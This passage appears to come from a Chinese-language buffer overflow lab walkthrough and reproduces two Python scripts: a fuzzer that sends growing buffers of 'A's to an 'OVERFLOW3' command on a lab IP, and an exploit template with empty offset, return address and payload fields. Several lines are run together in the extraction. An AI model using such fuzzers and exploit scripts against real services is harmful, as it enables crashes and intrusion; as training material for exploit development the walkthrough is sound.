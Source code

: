 # Fuzzer.py

```
import socket, time, sysip = "192.168.43.57";
port = 1337
timeout = 5buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW3 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

还复制了 **exploit.py** 代码

```
import socketip = "192.168.43.57"
port = 1337prefix = "OVERFLOW3 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

点击红色的播放按钮，并开始对目标 IP fuzzer . py

![](img/46cd7a86c95dd6590ed9e020bf08ccee.png)
